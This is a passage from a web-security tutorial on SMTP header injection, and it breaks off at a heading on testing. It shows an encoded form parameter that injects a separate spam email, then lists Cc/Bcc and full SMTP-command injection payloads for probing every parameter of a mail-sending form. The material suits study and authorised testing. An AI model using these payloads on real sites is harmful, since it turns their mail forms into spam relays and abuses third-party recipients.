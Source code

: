 ```
Subject=Site+feedback%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+mail@wahh-viagra.com%0d%0aRCPT+TO:+john@wahh-mail.com%0d%0aDATA%0d%0aFrom:+mail@wahh-viagra.com%0d%0aTo:+john@wahh-mail.com%0d%0aSubject:+Cheap+V1AGR4%0d%0aBlah%0d%0a%2e%0d%0a
```

That breaks into the SMTP convo and sends an entirely separate message.

So this results in TWO mails:

1. Legit:

   ```
   From: daf@wahh-mail.com
   To: feedback@wahh-app.com
   Subject: Site feedback
   foo
   .
   ```

2. Injected:

   ```
   From: mail@wahh-viagra.com
   To: john@wahh-mail.com
   Subject: Cheap V1AGR4
   Blah
   .
   ```

---

### 🔍 Finding SMTP Injection

**Your job as an attacker or tester:** fire payloads like these into *every parameter*, even the ones that don't seem important.

**Use these payloads (replace `<youremail>`):**

```text
<youremail>%0aCc:<youremail>
<youremail>%0d%0aCc:<youremail>
<youremail>%0aBcc:<youremail>
<youremail>%0d%0aBcc:<youremail>
```

Then more aggressive ones:

```text
%0aDATA%0afoo%0a.%0aMAIL FROM:<youremail>%0aRCPT TO:<youremail>%0aDATA%0aFrom:<youremail>%0aTo:<youremail>%0aSubject:test%0afoo%0a.%0a
```

Try both `%0a` (Unix newline) and `%0d%0a` (Windows newline).

---

### 🧪 How to Test for This
